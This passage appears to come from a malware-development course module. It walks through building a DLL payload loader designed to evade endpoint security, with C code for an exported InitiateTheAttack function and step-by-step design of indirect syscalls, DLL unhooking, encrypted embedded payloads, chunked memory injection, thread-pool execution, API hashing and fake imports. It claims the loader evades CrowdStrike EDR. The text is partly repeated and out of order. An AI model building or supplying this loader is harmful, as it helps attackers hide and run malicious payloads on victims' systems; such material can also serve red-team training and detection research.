responsible for executing the core features of the loader will be from
an exported function called InitiateTheAttack. This function carries out the following tasks:
It verifies the success of the earlier execution of the GetResourcePayload function by checking the values of the global variables g_pRsrcPayloadBuffer and g_dwRsrcPayloadSize.
It invokes the IatCamouflage function to import fake functions and DLLs into the IAT.
It utilizes the AddWin32uToIat function to ensure that shell32.dll is imported. This is important because when shell32.dll is loaded, it loads win32u.dll, which contains the necessary syscall instructions.
It calls InitIndirectSyscalls to initialize the global g_Nt structure. As previously explained, this structure holds the essential components for making syscall calls via HellsHall.
The function introduces a delay in execution for a duration specified by the g_NT_DELAY_TIME variable, using the DelayExecution function.
It establishes a VEH function through AddVectoredExceptionHandler, resolved using API hashing with the help of GetProcAddressH and GetModuleHandleH.
The function proceeds to unhook the DLLs ntdll.dll, kernel32.dll, and kernelbase.dll by invoking UnhookAllLoadedDlls.
Afterward, it removes the VEH using RemoveVectoredExceptionHandler, once again resolved through API hashing with the aid of GetProcAddressH and GetModuleHandleH.
The payload is injected using the InjectEncryptedPayload function.
Finally, it executes the injected payload using the ExecutePayload function.
NT_API g_Nt = { 0 };
FLOAT g_NT_DELAY_TIME = 0.3; // Delay execution for 0.3 minute
extern __declspec(dllexport) int InitiateTheAttack() {
PVOID pVehHandler = NULL,
pInjectedPayload = NULL;
// DllMain failed to fetch the payload
if (!g_pRsrcPayloadBuffer || !g_dwRsrcPayloadSize)
return -1;
// Add fake imports to the IAT
IatCamouflage();
// Force win32u.dll to be loaded
AddWin32uToIat();
fnAddVectoredExceptionHandler pAddVectoredExceptionHandler =
(fnAddVectoredExceptionHandler)GetProcAddressH(GetModuleHandleH(kernel32dll_CRC32),
AddVectoredExceptionHandler_CRC32);
fnRemoveVectoredExceptionHandler pRemoveVectoredExceptionHandler =
(fnRemoveVectoredExceptionHandler)GetProcAddressH(GetModuleHandleH(kernel32dll_CRC32),
RemoveVectoredExceptionHandler_CRC32);
if (!pAddVectoredExceptionHandler || !pRemoveVectoredExceptionHandler) {
#ifdef DEBUG
PRINT("[!] Failed To Fetch One Or More Function Pointers - %s.%d \n",
GET_FILENAME(__FILE__), __LINE__);
#endif
return -1;
}
// Initialize indirect syscalls structure
if (!InitIndirectSyscalls(&g_Nt)) {
return -1;
}
#ifdef DELAY
#ifdef DEBUG
PRINT("[i] Delaying Execution For %d Seconds ... ",
(DWORD)(g_NT_DELAY_TIME * 60));
#endif
DelayExecution(g_NT_DELAY_TIME);
#ifdef DEBUG
PRINT("[+] DONE \n");
#endif
#endif // DELAY
// Start the VEH
pVehHandler = pAddVectoredExceptionHandler(1,
VectoredExceptionHandler);
if (pVehHandler == NULL) {
#ifdef DEBUG
PRINT("[!] AddVectoredExceptionHandler Failed With Error: %d - %s.%d
\n", GetLastError(), GET_FILENAME(__FILE__), __LINE__);
#endif
return -1;
}
// Unhook loaded dlls
UnhookAllLoadedDlls();
if (!pRemoveVectoredExceptionHandler(pVehHandler)) {
#ifdef DEBUG
PRINT("[!] RemoveVectoredExceptionHandler Failed With Error: %d -
%s.%d \n", GetLastError(), GET_FILENAME(__FILE__), __LINE__);
#endif
return -1;
}
// Write the payload
if (!InjectEncryptedPayload(g_pRsrcPayloadBuffer, g_dwRsrcPayloadSize,
&pInjectedPayload)) {
#ifdef DEBUG
PRINT("[!] Failed To Inject The Payload - %s.%d \n",
GET_FILENAME(__FILE__), __LINE__);
#endif
return -1;
}
#ifdef DEBUG
PRINT("\n\t\t[*]========> Executing The Payload In %d Seconds
<========[*]\n", PAYLOAD_EXEC_DELAY);
#endif
ExecutePayload(pInjectedPayload);
return 0;
}
When constructing a loader, it's crucial to make adjustments to the compiler's configuration as the final step. The process of removing the CRT library was initially discussed in Module 79: CRT Library Removal & Malware Compiling module and was then put into practice in Module 81: Bypassing AVs module. By following the procedures outlined in the those modules, certain functions must be replaced with custom versions.
rand() is replaced with GenerateRandomInt.
unsigned int GenerateRandomInt() {
static unsigned int state = 123456789;
state ^= state << 13;
state ^= state >> 17;
state ^= state << 5;
return state;
}
wcscat is replaced with Wcscat.
VOID Wcscat(IN WCHAR* pDest, IN WCHAR* pSource) {
while (*pDest != 0)
pDest++;
while (*pSource != 0) {
*pDest = *pSource;
pDest++;
pSource++;
}
*pDest = 0;
}
memcpy is replaced with Memcpy.
VOID Memcpy(IN PVOID pDestination, IN PVOID pSource, SIZE_T sLength) {
PBYTE D = (PBYTE)pDestination;
PBYTE S = (PBYTE)pSource;
while (sLength--)
*D++ = *S++;
}
In addition to function replacements at runtime, the compiler required a custom declaration for the memset and strrchr functions, which is done via the intrinsic keyword. Again, this was introduced and used in the previously mentioned modules.
// replaces 'memset' while compiling
extern void* __cdecl memset(void*, int, size_t);
#pragma intrinsic(memset)
#pragma function(memset)
void* __cdecl memset(void* pTarget, int value, size_t cbTarget) {
unsigned char* p = (unsigned char*)pTarget;
while (cbTarget-- > 0) {
*p++ = (unsigned char)value;
}
return pTarget;
}
// replaces 'strrchr' while compiling.
extern void* __cdecl strrchr(const char*, int);
#pragma intrinsic(strrchr)
#pragma function(strrchr)
char* strrchr(const char* str, int c) {
char* last_occurrence = NULL;
while (*str) {
if (*str == c) {
last_occurrence = (char*)str;
}
str++;
}
return last_occurrence;
}
Once all the necessary compiler configurations have been established, our DLL loader, named DllLoader.dll, will only import the following functions when debug mode is disabled:

Additionally, DllLoader.dll will export a single function, InitiateTheAttack.

The picture below shows the payload loader evading Crowdstrike EDR.

Leading up to this module, the course has covered various individual evasion techniques but hasn't integrated them into practical real-world projects. However, in this module, readers will acquire the skills to develop a reliable and stealthy DLL payload loader. This module will not only introduce new concepts but also enhance previously taught evasion techniques, resulting in a more comprehensive and effective approach for each method.
The payload loader to be created will take the form of a DLL file for several reasons:
DLLs can be discreetly loaded and executed by legitimate applications while they are running, rendering them less conspicuous compared to standalone EXE files.
They can be effectively used in DLL search order exploits, such as DLL sideloading.
DLLs offer better opsec persistence approaches when sideloaded.
With that being said, the next section will dive into the loader's features.
The loader being built will have the following features:
Indirect-Syscalls using an improved HellsHall implementation.
Dll Unhooking via the \KnownDlls\ directory without using RWX memory permissions.
Payload injection by chunking, possibly evading EDR events filters.
Using custom AES encryption library.
Executing payload via Thread Pool APIs.
Obfuscating IAT using API hashing and API camouflage.
CRT library independent.
HellsHall, introduced in Module 89: Indirect Syscalls - HellsHall,
serves the purpose of evading user-land hooking through the utilization
of indirect syscalls. It accomplishes this by redirecting execution to a
syscall instruction located within ntdll.dll, rather than executing it directly from the implementation's memory.
The DLL loader we're developing will leverage HellsHall, with a
slight modification applied to it. This modification is related to the
unhooking routine that will be using the PAGE_READWRITE (RW) memory permission, instead of using the PAGE_EXECUTE_READWRITE (RWX) permission. However, this choice comes with a limitation: this makes it impossible to execute anything within ntdll.dll's address space.
In simpler terms, attempting to jump to a syscall instruction in ntdll.dll will trigger a STATUS_ACCESS_VIOLATION
exception because an attempt was made to execute code in a
non-executable memory region. To resolve this issue, the loader will
need to find a syscall instruction situated outside of ntdll.dll's address space.
To do this, the win32u.dll library will be used which contains syscall functions that have syscall instructions that our loader can leverage.
The win32u.dll library is a component of the Win32 subsystem, offering a range of user-mode graphics-related functions. Within win32u.dll, there are syscall functions that have syscall
instructions that our loader can use when executing HellsHall. With
that in mind, invoking a syscall within the loader will now take the
following form:
Opening win32u.dll using the HxD binary editor allows one to see the syscall ret opcodes (0F05C3) which are the opcodes that our loader will jump to.
The new HellsHall implementation will contain the following functions:
A function that will calculate all the required virtual addresses of a
specified DLL module. This function will be called twice, once for ntdll.dll and the other for win32u.dll.
A function that will search win32u.dll's address space for syscall and ret instructions.
A function that will search ntdll.dll's address space for the specified syscall's System Service Number (SSN).
Given the critical role of win32u.dll in the new
HellsHall implementation, it is crucial to ensure the DLL is loaded in
the local process before proceeding with any other actions. While it is
possible to load win32u.dll at runtime using the LoadLibrary WinAPI, a better approach is to load it statically via the IAT of our implementation.
The function AddWin32uToIat shown below leverages the SHGetFolderPathW WinAPI, which is exported from the shell32.dll DLL. Notably, shell32.dll itself loads the win32u.dll DLL for its internal functions, thus ensuring that win32u.dll will also be loaded upon our DLL file is loaded into a process.
Part of our requirement in the updated HellsHall is to access exported functions by the ntdll and win32u DLLs. The MODULE_CONFIG structure is used for ease of accessing a DLL's virtual addresses without having to calculate it repeatedly. The MODULE_CONFIG structure is defined as follows:
Given that two DLL libraries are involved in the updated HellsHall implementation, it's necessary to define two global MODULE_CONFIG structure variables.
The InitDllsConfigStructs function initializes g_NtdllConf and g_Win32uConf. It takes two parameters and returns TRUE when all members of the structure are populated; otherwise, it returns FALSE. The function's parameters are detailed below:
pModuleConf - A pointer to a MODULE_CONFIG structure to populate.
uBaseAddress - A DLL's base address for populating the MODULE_CONFIG structure.
The FetchWin32uSyscallInst function serves the purpose of locating a syscall instruction in the exported functions of win32u.dll that is immediately followed by a ret instruction. FetchWin32uSyscallInst requires one parameter and returns TRUE if it was able to fetch a syscall instruction address. FetchWin32uSyscallInst's required parameter is shown below:
ppSyscallInstAddress - Pointer to a PVOID variable that will be used to hold the address of the syscall instruction found.Additionally, the function incorporates several evasion techniques outlined below:
Syscall obfuscation - The global variable g_SYSCALL_OPCODE is derived from the syscall instruction's opcode (0x050F) XOR'd with 0x25. This operation obscures the original syscall
instruction's opcode, making it less susceptible to detection by static
scanners designed to identify direct syscall attempts. The use of the volatile
keyword ensures that the XOR decryption operation is carried out at
runtime rather than compile time, preventing the static exposure of the syscall instruction's opcode.
Returning different syscall instructions - To enhance evasion, the function tries to return a different syscall instruction each time it is invoked. This behavior is governed by the iSeed and iCounter variables. iSeed represents a randomly generated value during runtime, which the function utilizes to determine when to return. In other words, FetchWin32uSyscallInst will provide the address of the syscall instruction at the iSeed-th position, ensuring that it does not return the first encountered syscall instruction address on each call.
The final function in the updated HellsHall implementation, called FetchNtSyscall, closely resembles the original one in Module 89: Indirect Syscalls - HellsHall, with a minor modification. In the current version, the FetchNtSyscall function will invoke FetchWin32uSyscallInst to retrieve the address of the syscall instruction from the memory space of win32u.dll rather than searching within ntdll.dll. FetchNtSyscall expects two parameters:
dwSysHash - This parameter represents the hash value of the syscall for which the SSN needs to be fetched.
pNtSys - This is a pointer to an NT_SYSCALL structure that encapsulates all the necessary details for executing an indirect syscall.
The NT_SYSCALL structure is shown below:
The FetchNtSyscall function uses a macro called CRCHASH,
which accepts an input string and returns its hash value using the
Cyclic Redundancy Check (CRC) calculation method, as implemented in the CRC32B function provided below.
FetchNtSyscall returns TRUE if all the structure's members are populated.
Since the HellsHall implementation has been finalized, the NT_API structure will be introduced, which will contain all the NT_SYSCALL structures related to the syscalls that will be invoked by the loader.
The function InitIndirectSyscalls will be called to populate an NT_API structure. The InitIndirectSyscalls function will call FetchNtSyscall for every NT_SYSCALL structure in NT_API. InitIndirectSyscalls returns a value of TRUE if all the elements within the input NT_API have been populated. The function takes one parameter, Nt, a pointer to an NT_API structure to be populated.
It's important to mention that the syscall hashes, which are necessary for calling FetchNtSyscall,
are generated using the CRC string hashing algorithm that was
introduced earlier. The hash generator program will be made available
alongside the module's source code.
When unhooking NTDLL was performed in previous modules, they followed the same approach of modifying the .text section of the target DLL to grant it PAGE_EXECUTE_READWRITE memory permissions. This technique allowed us to overwrite .text with the unhooked version while still permitting execution.
In contrast, this module will use an improved technique to avoid the use of RWX memory permissions. The reason behind this technique is that using RWX permissions can be suspicious and may draw the attention of EDR systems.
Additionally, the loader will utilize the \KnownDlls\
directory to retrieve the unhooked versions of the first three DLL
images loaded into the local process. These initial images typically
include ntdll.dll, kernel32.dll, and kernelbase.dll,
which are precisely the areas where EDRs are most vigilant about
detecting user-land hooks. To sidestep the need for RWX permissions, the
loader will instead configure the memory permissions of the target
DLL's .text section as PAGE_READWRITE, which prevents execution. However, before doing so, a Vectored Exception Handler (VEH) will be established. The unhooking routine is outlined in the following diagram.
The MapDllFromKnownDllDir function is shown below which maps the unhooked version of the szDllName DLL into the local process. If the mapping is successful, MapDllFromKnownDllDir returns the base address of the mapped DLL.
Next, we create the UnhookAllLoadedDlls function that serves the purpose of unhooking DLLs such as ntdll.dll, kernel32.dll, and kernelbase.dll. The typical code for UnhookAllLoadedDlls was previously discussed in Module 85: NTDLL Unhooking - From KnownDlls Directory. However, upon discovering the specific details of the local .text section, including its address and size, the UnhookAllLoadedDlls function additionally stores this information in global variables for potential later use by the VEH function.
The function does not utilize the PAGE_EXECUTE_READWRITE or PAGE_EXECUTE_WRITECOPY memory permissions. Instead, it uses the PAGE_READWRITE permission in its initial NtProtectVirtualMemory call. It's worth mentioning that since the UnhookAllLoadedDlls function relies on the g_Nt global variable, it is essential to call InitIndirectSyscalls beforehand to ensure that all syscalls used within UnhookAllLoadedDlls (as well as MapDllFromKnownDllDir) are valid.
Prior to invoking the UnhookAllLoadedDlls function, it's
essential to initialize a Vectored Exception Handler (VEH). This
initialization process has been covered several times throughout the
course which utilizes the AddVectoredExceptionHandler WinAPI function.
Our custom VEH function itself is named VectoredExceptionHandler, and its functionality is outlined below:
Initially, it checks if the exception code corresponds to EXCEPTION_ACCESS_VIOLATION. If so, it proceeds to validate the source of the exception. If the exception was triggered within the target DLL's .text section, it is considered a valid exception and is processed by the function. Otherwise, the function returns EXCEPTION_CONTINUE_SEARCH.
Following this, the VEH function makes a syscall to NtProtectVirtualMemory, which designates the target .text section as a PAGE_EXECUTE_READWRITE memory region.
Finally, the VEH function replaces the hooked .text section with an unhooked version.
All of the steps mentioned above rely on the global variables initialized by the UnhookAllLoadedDlls function.
Next up is the encryption phase where the loader will use the ctaes library for AES-256 encryption and decryption. To integrate this library into the loader, two additional files, specifically ctaes.c and ctaes.h, need to be included.
To use the ctaes library for AES256 encryption, the payload should be encrypted using the following functions:
AES256_CBC_init - Initialize a AES256_CBC_ctx structure, that will be used for the encryption or decryption of the payload.
AES256_CBC_encrypt - Applies the AES256 algorithm to encrypt a specified plaintext buffer.
On the other hand, to decrypt the payload, the loader should call the following:
AES256_CBC_init - Initialize a AES256_CBC_ctx structure, that will be used for the encryption or decryption of the payload.
AES256_CBC_decrypt - Applies the AES256 algorithm to decrypt a specified ciphertext buffer.
An example of calling these functions is found here, however, the loader will further enhance the AES256_CBC_encrypt and AES256_CBC_decrypt functions in the next section.
The original implementation of the encrypt and decrypt functions is shown below.
However, the function the functions have been updated to be as follows:
To perform payload encryption, a new program has been developed called PayloadEncrypter. This program's primary function is to read a payload file from the disk, encrypt it, and then save it under a new name, Payload.ctaes. This encrypted payload, Payload.ctaes, becomes an integral part of the loader's project and is stored within its resource section.
It's important to note that the ctaes library lacks support for padding. Therefore, before invoking the AES256_CBC_encrypt function, PayloadEncrypter must manually add padding to ensure that the payload buffer's size is a multiple of 16 bytes, as required by the AES algorithm.
The code for PayloadEncrypter isn't entirely new, and a similar approach was used when working with the Tiny-AES library in the Payload Encryption - AES Encryption
module. Consequently, this process is not extensively discussed in the
module but is instead shared within the module's code. It's worth
mentioning that PayloadEncrypter stores the AES key and Initialization Vector (IV) after the payload's ciphertext bytes in the generated Payload.ctaes file, as illustrated in the following images.
From the loader's perspective, the payload is stored in the .rsrc section. Therefore, it needs to perform the following two steps:
First, retrieve the payload from the resource section and copy it to a local buffer. This task is accomplished using the GetResourcePayload function, which is outlined below. GetResourcePayload internally calls GetResourceData to locate the payload file within the resource section, without utilizing the FindResource, LoadResource, LockResource, or SizeofResource WinAPIs. The GetResourcePayload function requires the following parameters:
hModule - A handle to the module from which the resource section payload should be retrieved.
wResourceId - The resource ID associated with the payload, which was assigned during the creation of the resource section.
ppResourceBuffer - A pointer to a PBYTE variable that will receive a pointer to the first byte of the resource payload.
pdwResourceSize - A pointer to a DWORD variable that will capture the size of the resource payload.
Next, it retrieves the AES key and IV from the payload file and proceeds to invoke the AES256_CBC_decrypt function. This operation is carried out using the FetchAesConfAndDecrypt function, as demonstrated below. FetchAesConfAndDecrypt requires the following parameters:
pPayloadBuffer - A pointer to the ciphertext payload.
sPayloadSize - A pointer to a SIZE_T
variable that stores the size of the ciphertext payload. After
decryption, this variable will be updated to reflect the size of the
plaintext payload.
ppDecryptedPayload - A pointer to a PBYTE variable that will store the base address of the plaintext payload.
The loader will implement payload injection by chunking which still relies on the same standard syscalls (NtAllocateVirtualMemory and NtProtectVirtualMemory) but these syscalls are executed multiple times using a method known as chunking.
Chunking involves grouping various pieces of information into a single,
more cohesive dataset. In this module, chunking will be used to inject
the payload into memory. This is achieved by allocating small chunks of
memory successively until the combined buffer size is sufficient to
accommodate the entire payload. The same logic is applied to modify
memory permissions to allow execution after allocation. Injecting the
payload in this manner offers several advantages:
Some security vendors tend to filter out small allocations, particularly from the perspective of ETW. This is because small allocations are quite common on a system, making it challenging to monitor every single one. As a result, allocating memory in small regions at a time may potentially be categorized as a non-critical event, although still detectable.
By having the loader make multiple calls to NtAllocateVirtualMemory and NtProtectVirtualMemory,
it can disrupt the typical injection pattern (allocate - modify
permissions - execute) often scrutinized by security vendors seeking
malicious activity.
It's important to note that while chunking is a valuable technique to evade injection-based detections, it is not a foolproof solution.
The image below illustrates how the loader allocates and adjusts the
memory permissions of the memory region intended for writing the
payload. Notice the READ_ONLY memory page that is intentionally left behind.
The injection process will go through the following series of steps:
The payload size is adjusted to become a multiple of a single page size, which is 4096 bytes.
NtAllocateVirtualMemory is invoked to reserve a memory region. This reserved memory region is designed to accommodate the payload along with an additional READ_ONLY memory page, intentionally left behind for the remainder of the injection procedure. This particular NtAllocateVirtualMemory
call serves the purpose of reserving memory and cannot be carried out
in chunks. This is because there is a risk that the next address to be
reserved (on the subsequent memory page) might already be allocated for
another task. If you're interested in further details, Module 6: Windows Memory Management dives into the concepts of reserved vs. committed memory.
The base address of the allocation is incremented by 4096 (which corresponds to the page size) to bypass the READ_ONLY memory page.
A for-loop is initiated, with iterations equal to (payload size/page size). During each iteration, NtAllocateVirtualMemory is called once more to commit the memory page that was previously reserved. This committed memory page is configured as a PAGE_READWRITE
memory region. After each iteration, the base address is further
incremented by 4096 (page size) to point to the subsequent memory page
awaiting commitment.
A similar for-loop is used to invoke NtProtectVirtualMemory, which updates memory permissions to PAGE_EXECUTE_READWRITE. This loop mirrors the previous step in terms of iteration count.
Finally, the payload is copied over to the newly allocated RWX memory. This is accomplished through a for-loop that uses memcpy for a total of (payload size/page size) iterations.
The InjectEncryptedPayload function performs the steps explained in the previous section along with decrypting the payload via the FetchAesConfAndDecrypt function. Moreover, InjectEncryptedPayload returns TRUE if the payload is successfully injected. The function also requires the following parameters:
pPayloadBuffer - The base address of the ciphertext payload (returned by GetResourcePayload).
sPayloadSize - The size of the ciphertext payload (returned by GetResourcePayload).
pInjectedPayload - A pointer to a PBYTE variable that will receive the base address of the injected plaintext payload.
Following a successful call to the InjectEncryptedPayload
function, the subsequent step involves executing the injected payload.
Execution of the payload is achieved through the use of the SetThreadpoolTimer and CreateThreadpoolTimer WinAPI functions.
The CreateThreadpoolTimer function is used to execute
the payload as a callback function once a timer object has elapsed. The
timer object is configured by the SetThreadpoolTimer
function and expires after a specified period of time, for instance, 10
seconds, as defined by the function. You can find an example of using
these WinAPIs provided by Microsoft here.
The following ExecutePayload function leverages the CreateThreadpoolTimer and SetThreadpoolTimer WinAPIs to execute the payload. It accepts a single parameter, pInjectedPayload, representing the address of the injected payload returned by the InjectEncryptedPayload function.
The next objective of our loader is to obfuscate the IAT using API hashing. This is achieved through the GetModuleHandleH and GetProcAddressH functions, which replace GetModuleHandleA and GetProcAddress, respectively. Both of these functions were introduced earlier in the course and employ the CRC string hashing algorithm.
The GetModuleHandleH function, as presented below, takes a single parameter, uModuleHash, representing the CRC hash value of the lowercase ASCII DLL name. When called, GetModuleHandleH will return the base address of the specified DLL if it is found. Furthermore, if GetModuleHandleH
is invoked without specifying a hash value, it will return the base
address of the local executable image. This behavior is analogous to the
original GetModuleHandle WinAPI.
The GetProcAddressH function, shown below, requires two parameters:
hModule - A handle to the DLL module that holds the address of the desired WinAPI.
uApiHash - The CRC hash value corresponding to the WinAPI's name.
This GetProcAddressH function contains forwarded functions support which was discussed in the Forwarded Functions challenge.
The shared code accompanying this module includes a project named HashCalculator,
responsible for generating all the necessary hash values required for
the complete implementation of API hashing within the loader. The image
below provides an example of the output produced by the HashCalculator program.
The concept of API camouflage, as introduced in Module 80: IAT Camouflage, is a technique used to enhance the obfuscation of the IAT. In this technique, non-malicious WinAPIs are incorporated into the code but are never actually invoked. This forces the compiler to include these WinAPIs in the IAT of the compiled implant, creating the appearance of a legitimate application.
When the IatCamouflage function below is invoked, the WinAPIs listed within it are added to the IAT of its implementation.
Delaying execution can help in bypassing virtualized environments, as mentioned in Module 74: Anti-Virtual Environments - Multiple Delay Execution Techniques. However, in our case, it also helps with the unhooking routine. When unhooking DLLs in the loader, having an EXCEPTION_ACCESS_VIOLATION
exception raised is predictable, and thus handled. However, delaying
the execution even for a short time before unhooking the target DLLs
will give time for the current process to effectively execute its
function calls without interception. This will lower the possibility of
an exception being raised and thus create a more stable approach without
triggering the VEH function that will use the RWX memory permission.
The loader will use the NtDelayExecution syscall function for execution delaying via the following DelayExecution function. DelayExecution requires one parameter, fMinutes, which represents the time in minutes for NtDelayExecution to delay. For example, if fMinutes was 0.1, DelayExecution would delay the execution for 6 seconds (60 * 0.1). It is worth noting that NtDelayExecution is called via the HellsHall syscaller, because it is called before the unhooking routine, and thus can be hooked.
Printing runtime messages from the DLL isn't as straightforward as EXE since it can't rely on the printf
function alone. Depending on what type of process is loading the DLL
(i.e. whether it's a console application or a GUI application), the
behavior of printf differs. If the loading process is a console application, messages printed with printf
will appear in the same console as the application. However, when
dealing with a GUI application, understanding what the DLL is doing
becomes challenging unless it's being debugged, which becomes even more
complex.
To address this issue and enable runtime message printing from the loader, the following steps should be taken:
Check if the process to which the DLL is attached contains a console using the GetConsoleWindow function. GetConsoleWindow returns a handle to the console of the calling process if it exists.
If the target process lacks a console, a new console will be created using the AllocConsole WinAPI.
These steps are implemented in the CreateDebugConsole function below. Additionally, CreateDebugConsole ensures that a new console is only created once, which is due to the g_bCreated global variable that is initialized when CreateDebugConsole generates the initial console.
CreateDebugConsole should be the first function called within the DllMain function of the loader. This ensures that a console is established early on to serve as the destination for output messages.
With a console now available, the next step is to create a replacement for the printf function. The motivation behind this is that as the implementation progresses, the CRT library may be removed, resulting in printf not working anymore.
To address this, the provided PRINT macro is introduced, which uses the GetStdHandle and WriteConsoleA WinAPIs to facilitate message writing to the process's console.
The majority of the PRINT macro calls utilize the following two macros:
__FILE__ - This is a predefined compiler macro used to obtain the current source code file's path. Because __FILE__ retrieves the entire file path, a new macro called GET_FILENAME is introduced to extract only the file's name from the path provided by __FILE__. The GET_FILENAME macro is defined as follows:__LINE__ - Another predefined macro, __LINE__, serves to retrieve the current line number within a source code file.The loader contains multiple PRINT calls throughout its functions for a verbose output. These PRINT calls will only be active if the DEBUG macro is defined, which is achieved through the #define DEBUG directive.
The DllMain function serves as the initial point of execution when the DLL is loaded into a running process. The DllMain function in this loader is displayed below. It performs two main tasks: first, it calls the CreateDebugConsole function if debug mode is enabled, and second, it utilizes the GetResourcePayload function to retrieve details about the payload from the resource section.
Unhooking and payload injection procedures are carried out in a separate function, distinct from the DllMain function. This is due to the DLL load lock problem, which will be explained in more detail in the upcoming module Introduction To DLL Sideloading. In short, the loader should not execute core functionality from DllMain and instead should be from an exported function.
Recall that due to the DLL load lock issue, the primary function
responsible for executing the core features of the loader will be from
an exported function called InitiateTheAttack. This function carries out the following tasks:
It verifies the success of the earlier execution of the GetResourcePayload function by checking the values of the global variables g_pRsrcPayloadBuffer and g_dwRsrcPayloadSize.
It invokes the IatCamouflage function to import fake functions and DLLs into the IAT.
It utilizes the AddWin32uToIat function to ensure that shell32.dll is imported. This is important because when shell32.dll is loaded, it loads win32u.dll, which contains the necessary syscall instructions.
It calls InitIndirectSyscalls to initialize the global g_Nt structure. As previously explained, this structure holds the essential components for making syscall calls via HellsHall.
The function introduces a delay in execution for a duration specified by the g_NT_DELAY_TIME variable, using the DelayExecution function.
It establishes a VEH function through AddVectoredExceptionHandler, resolved using API hashing with the help of GetProcAddressH and GetModuleHandleH.
The function proceeds to unhook the DLLs ntdll.dll, kernel32.dll, and kernelbase.dll by invoking UnhookAllLoadedDlls.
Afterward, it removes the VEH using RemoveVectoredExceptionHandler, once again resolved through API hashing with the aid of GetProcAddressH and GetModuleHandleH.
The payload is injected using the InjectEncryptedPayload function.
Finally, it executes the injected payload using the ExecutePayload function.
When constructing a loader, it's crucial to make adjustments to the compiler's configuration as the final step. The process of removing the CRT library was initially discussed in Module 79: CRT Library Removal & Malware Compiling module and was then put into practice in Module 81: Bypassing AVs module. By following the procedures outlined in the those modules, certain functions must be replaced with custom versions.
rand() is replaced with GenerateRandomInt.
wcscat is replaced with Wcscat.
memcpy is replaced with Memcpy.
In addition to function replacements at runtime, the compiler required a custom declaration for the memset and strrchr functions, which is done via the intrinsic keyword. Again, this was introduced and used in the previously mentioned modules.
Once all the necessary compiler configurations have been established, our DLL loader, named DllLoader.dll, will only import the following functions when debug mode is disabled:
Additionally, DllLoader.dll will export a single function, InitiateTheAttack.
The picture below shows the payload loader evading Crowdstrike EDR.